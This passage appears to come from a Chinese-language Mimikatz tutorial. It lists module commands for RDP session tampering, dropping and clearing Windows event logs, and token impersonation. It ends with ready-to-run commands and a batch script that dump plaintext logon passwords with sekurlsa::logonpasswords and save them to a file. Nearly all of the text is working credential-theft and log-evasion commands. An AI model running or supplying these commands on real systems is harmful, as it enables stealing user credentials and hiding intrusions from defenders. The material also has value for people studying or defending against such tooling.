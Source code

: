 ### [ts（终端服务模块）](#toc_ts)

```plain
ts::sessions   显示当前对话
ts::multirdp    允许多个用户使用 rdp 安装 rdp 布丁
```

### [event（事件模块）](#toc_event)

```plain
event::drop  启动时间补丁服务 不在记录新产生的事件
event::clear  清楚时间日志
```

### [token（令牌操作模块）](#toc_token)

```plain
token::whoami  显示当前身份
token::list    列出系统所有的令牌
token::elevate  冒充令牌
token::run     运行
token::revert   恢复到进程令牌
```

### [misc（杂项模块）](#toc_misc)

打开 cmd、regedit、taskmgr、ncroutemon、detours、wifi、addsid、memssp、skeleton 等。

## [功能实现](#toc__2)

### [sekurlsa 模块中 logonpasswords 抓取密码操作](#toc_sekurlsalogonpasswords)

```plain
1.交互式抓取明文密码
privilege::dubug
sekurlsa::logonpasswords
2.更方便的 mimikatz 命令
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
3.输出日志
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
4.bat 脚本
@echo off
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > C:\programdata\log.txt
```
